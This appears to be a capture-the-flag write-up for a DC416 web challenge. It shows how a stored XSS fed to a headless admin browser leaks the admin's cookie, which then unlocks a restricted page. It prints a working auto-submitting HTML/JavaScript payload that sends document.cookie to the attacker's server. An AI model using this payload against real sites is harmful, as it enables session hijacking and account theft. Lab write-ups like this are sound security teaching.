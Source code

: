 ## DC416 Rapid-fire CTF: WEB

> They say you can never trust the client, can you prove why?
> 
> Additional tools that might come in handy:
> 
> * Wireshark/tcpdump
> * Understanding client side attacks
>
>Challenge is located at: http://10.20.30.201


One of the DC416 Rapid CTF challenges was a web application challenge with 2 forms. 

![](images/01.png)

At the top there is a red button labeled ‘Restricted Area’. Once clicked, we are presented with a javascript alert that says ‘Forbidden’. We are not allowed to access this page.  The keen eyed would notice it says ‘Logged in as guest’ at the top right of the screen, however, we didn’t even login? Weird.Maybe it’s determined by the cookie? let’s check what cookies are set.

![](images/02.png)

This is easy to miss under pressure, when 100 people are behind you observing every move you do. Which is what DC416’s Rapid CTF concept is all about.

At the bottom of the form there is an admin note which mentions that the admin will visit the URL you provide once you submit the form. Interesting. If we could get the admin to visit any page we own, what can we do with it? let’s check what happens when you supply the form with our web server IP.

![](images/03.png)

Cool. we get a visit on the web server from what seems to be running PhantomJS, a headless client browser.

OK, that’s good. But we can’t do anything valauble with it yet. The CTF’s landing page did mention we should be familiar with client side attacks techniques. This is a big hint for a possible XSS.
it’s time to call the cookie monster 

Cookie stealing:

The following basic html/js form will send the cookie back to us once someone visits our page, this is happening with javascript’s [document.location](https://developer.mozilla.org/en-US/docs/Web/API/Document/location) and [document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) properties.

```
<html>
    <body>
    <form action="http://10.20.30.201" method="POST" id="f" name="f">
        <input name="url" value="<script>document.location='http://10.20.30.90/cookie?cookie='+document.cookie</script>">
        <input type="submit" />
    </form>    
    <script>
        document.forms["f"].submit();
    </script>
</body>
</html>
```

The bottom portion of the code will force the client’s browser to submit the request upon visiting our page. We host this on our web server and retry the form submission with our IP.
If all goes well, we will get a new visit by PhantomJS, with the XSS executed on the server side, and the cookie will be sent to us.

We once again point the url field to our malicious URL and hit submit, tail the access log and cross our fingers!

![](images/04.png)


Oh look, we captured the admin’s cookie! **ctf=1337c00k13**

Let’s set this cookie!

![](images/05.png)

And refresh the page...

![](images/06.png)

The red button that said Forbidden before is now green and we have the flag!

